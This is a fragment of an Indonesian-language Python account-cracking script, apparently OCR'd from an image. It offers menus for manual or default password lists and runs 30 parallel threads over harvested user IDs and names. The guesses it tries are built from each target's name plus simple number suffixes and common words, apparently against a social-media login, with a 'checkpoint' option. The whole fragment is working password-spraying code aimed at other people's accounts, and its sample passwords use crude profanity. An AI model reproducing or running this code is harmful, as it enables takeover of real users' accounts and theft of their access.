 		else:
			print(f"{B} | ")
			print(f"{B} | ")
			print(f"{P}[•] Crack menggunakan pasword manual/defaults {B}M/D")
			print(f"{B} | ")
			ter =input(f"{P}[•] Pilih : {B}")
			if ter in ["m","M"]:
				with ThreadPoolExecutor(max_workers=30) as coeg:
					print(f"{B} | ")
					print(f"{B} | ")
					print(f"{P}[•] Contoh password {B}Anjink,kontol,sayang")
					print(f"{B} | ")
					asu = input(f"{P}[•] Buat sandi : {B}").split(",")
					if len(asu) =="":
						print(f"{B} | ")
						print(f"{B} | ")
						print(f"{P}[•]{M} Sandi tidak boleh kosong");exit()
					started()
					for user in id:
						uid, name = user.split("<=>")
						coeg.submit(mbasicc, uid, asu)
				exit()
			elif ter in ["d","D"]:
				with ThreadPoolExecutor(max_workers=30) as coeg:
					started()
					for user in id:
						uid, name = user.split("<=>")
						frist=name.split(" ")
						if len(frist)>=6:
							fii = [ name, frist[0], frist[0]+"123", frist[0]+"12345", frist[0]+"123456" ]
						elif len(frist)<=2:
							fii = [ name, frist[0], frist[0]+"123", frist[0]+"12345", frist[0]+"123456" ]
						elif len(frist)<=3:
							fii = [ name, frist[0], frist[0]+"123", frist[0]+"12345", frist[0]+"123456" ]
						else:
							fii = [ "bissmilah", "anjing", "indonesia", "sayangkamu" ]
						coeg.submit(mobill, uid, fii)
				exit()
				
	elif fiisayangwidiya in ["2","02"]:
		print(f"{B} | ")
		print(f"{B} | ")
		print(f"{P}[•] Tampilkan opsi chekpoint {B}Y/T")
		jalan(f"{P}[•]{M} Terkadang jika menampilkan opsi jarang dapet akun !!!")
		print(f"{B} | ")
		_checkoptions_=input(f"{P}[•] Pilih : {B}")
		if _checkoptions_ in ["y","Y"]:
			try:
				_key = "Anjink"
				key = "Anjink"
				if _key in key:
					print(f"{B} | ")
					print(f"{B} | ")
					print(f"{P}[•] Crack menggunakan password manual/default {B}M/D")
					print(f"{B} | ")
					ter =input(f"{P}[•] Pilih : {B}")
					if ter in ["m","M"]:
						with ThreadPoolExecutor(max_workers=30) as coeg:
							print(f"{B} | ")
							print(f"{B} | ")
							print(f"{P}[•] Contoh password : {B}sayang,anjing,kontol")
							print(f"{B} | ")
							asu = input(f"{P}[•] Buat sandi : {B} ").split(",")
							if len(asu) =="":